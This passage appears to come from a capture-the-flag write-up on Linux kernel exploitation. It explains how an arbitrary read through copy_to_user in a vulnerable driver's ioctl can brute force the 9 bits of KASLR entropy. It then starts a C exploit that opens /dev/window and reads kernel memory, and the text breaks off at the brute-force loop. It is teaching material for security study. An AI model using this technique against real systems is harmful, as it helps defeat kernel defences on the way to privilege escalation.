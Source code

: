 **Answer: We can use the arbitrary read to brute force KASLR**

In order to understand how and why it works, we need to first understand the following three concepts:

**copy_to_user is fail-safe**

> copy_to_user does not fail even if the kernel address provided is not mapped yet, it simply copies a bunch of null bytes to the userspace buffer.
>
> It only throws an error and fails when a kernel address is not physically mappable or does not have the appropriate permissions, which is not of concern to us in this writeup.
{: .prompt-info}

[**kaslr is brute-forceable**](https://github.com/torvalds/linux/blob/12ad143e1b803e541e48b8ba40f550250259ecdd/arch/x86/boot/compressed/kaslr.c#L836)
> Unlike in userspace where the ASLR entropy can be as high as 30 bits (1073741824 combinations), the KASLR entropy is only 9 bits (512 combinations) due to space constraints and alignment issues.
{: .prompt-info}

[**we know the range of kaslr addresses to brute force**](https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/7/html/7.4_release_notes/technology_previews_kernel#doc-wrapper)
> The physical address and virtual address of kernel text itself are randomized to a different position separately. The physical address of the kernel can be anywhere under 64TB, while the virtual address of the kernel is restricted between [0xffffffff80000000, 0xffffffffc0000000], the 1GB space.
{: .prompt-info}

By combining both of these concepts, we can abuse the arbitrary read via `copy_to_user` in `device_ioctl` to brute force the 9 bits of and find our kernel image base. 

## Getting our hands dirty: Defeating KASLR

With all the information, we can write a simple script to brute force the KASLR to get our kernel base.

```c
#include <stdio.h>
#include <string.h>
#include <sys/ioctl.h>
#include <unistd.h>
#include <fcntl.h>
#include <stdlib.h>
#include <stdlib.h>

int fd = 0;

void perror(const char* msg) {
        puts(msg);
        exit(-1);
}

// returns 8 bytes from and arbitrary kernel address
unsigned long aar(unsigned long ptr) {
        unsigned long leak[264/8] = {0};
        leak[0] = ptr;
        ioctl(fd, 0x1337, leak);
        return leak[1];
}

int main() {
        unsigned long kbase = 0;
        fd = open("/dev/window", O_RDWR);
        if (fd == -1)
                perror("error: unable to open /dev/window");

        // we start from the smallest possible kaslr address
        kbase = 0xffffffff80000000;
```
